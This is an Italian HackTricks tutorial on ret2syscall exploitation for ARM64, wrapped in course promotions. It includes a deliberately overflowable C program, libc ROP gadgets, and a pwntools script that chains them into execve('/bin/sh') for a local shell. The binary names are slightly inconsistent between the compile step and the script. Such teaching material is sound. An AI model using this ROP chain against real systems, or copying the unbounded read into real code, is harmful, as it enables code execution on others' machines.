 # Ret2syscall - ARM64

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

Trova un'introduzione all'arm64 in:

{% content-ref url="../../../macos-hardening/macos-security-and-privilege-escalation/macos-apps-inspecting-debugging-and-fuzzing/arm64-basic-assembly.md" %}
[arm64-basic-assembly.md](../../../macos-hardening/macos-security-and-privilege-escalation/macos-apps-inspecting-debugging-and-fuzzing/arm64-basic-assembly.md)
{% endcontent-ref %}

## Codice

Utilizzeremo l'esempio dalla pagina:

{% content-ref url="../../stack-overflow/ret2win/ret2win-arm64.md" %}
[ret2win-arm64.md](../../stack-overflow/ret2win/ret2win-arm64.md)
{% endcontent-ref %}
```c
#include <stdio.h>
#include <unistd.h>

void win() {
printf("Congratulations!\n");
}

void vulnerable_function() {
char buffer[64];
read(STDIN_FILENO, buffer, 256); // <-- bof vulnerability
}

int main() {
vulnerable_function();
return 0;
}
```
Compila senza pie e canary:
```bash
clang -o ret2win ret2win.c -fno-stack-protector
```
## Gadget

Per preparare la chiamata per il **syscall** è necessaria la seguente configurazione:

* `x8: 221 Specifica sys_execve`
* `x0: ptr a "/bin/sh" specifica il file da eseguire`
* `x1: 0 specifica nessun argomento passato`
* `x2: 0 specifica nessuna variabile d'ambiente passata`

Utilizzando ROPgadget.py sono riuscito a localizzare i seguenti gadget nella libreria libc della macchina:

{% code overflow="wrap" %}
```armasm
;Load x0, x1 and x3 from stack and x5 and call x5
0x0000000000114c30:
ldp x3, x0, [sp, #8] ;
ldp x1, x4, [sp, #0x18] ;
ldr x5, [sp, #0x58] ;
ldr x2, [sp, #0xe0] ;
blr x5

;Move execve syscall (0xdd) to x8 and call it
0x00000000000bb97c :
nop ;
nop ;
mov x8, #0xdd ;
svc #0
```
{% endcode %}

Con i gadget precedenti possiamo controllare tutti i registri necessari dallo stack e usare x5 per saltare al secondo gadget per chiamare la syscall.

{% hint style="success" %}
Nota che conoscere queste informazioni dalla libreria libc consente anche di effettuare un attacco ret2libc, ma usiamolo per questo esempio attuale.
{% endhint %}

### Exploit
```python
from pwn import *

p = process('./ret2syscall')
elf = context.binary = ELF('./ret2syscall')
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000 # ASLR disabled
binsh = next(libc.search(b"/bin/sh"))

stack_offset = 72

#0x0000000000114c2c : bl #0x133070 ; ldp x3, x0, [sp, #8] ; ldp x1, x4, [sp, #0x18] ; ldr x5, [sp, #0x58] ; ldr x2, [sp, #0xe0] ; blr x5
load_x0_x1_x2 = libc.address + 0x114c30 # ldp x3, x0, [sp, #8] ; ldp x1, x4, [sp, #0x18] ; ldr x5, [sp, #0x58] ; ldr x2, [sp, #0xe0] ; blr x5

# 0x00000000000bb97c : nop ; nop ; mov x8, #0xdd ; svc #0
call_execve = libc.address + 0xbb97c

print("/bin/sh in: " + hex(binsh))
print("load_x0_x1_x2 in: " + hex(load_x0_x1_x2))
print("call_execve in: " + hex(call_execve))

# stack offset
bof = b"A" * (stack_offset)
bof += p64(load_x0_x1_x2)

# ldp x3, x0, [sp, #8]
rop = b"BBBBBBBBBBBBBBBB" #x3
rop += p64(binsh) #x0

# ldp x1, x4, [sp, #0x18]
rop += b"C"*(0x18 - len(rop))
rop += p64(0x00) # x1
rop += b"CCCCCCCC" #x4

# ldr x5, [sp, #0x58]
rop += b"D"*(0x58 - len(rop))
rop += p64(call_execve) # x5

# ldr x2, [sp, #0xe0]
rop += b"E" * (0xe0 - len(rop))
rop += p64(0x00) # x2

payload = bof + rop

p.sendline(payload)

p.interactive()
```
{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
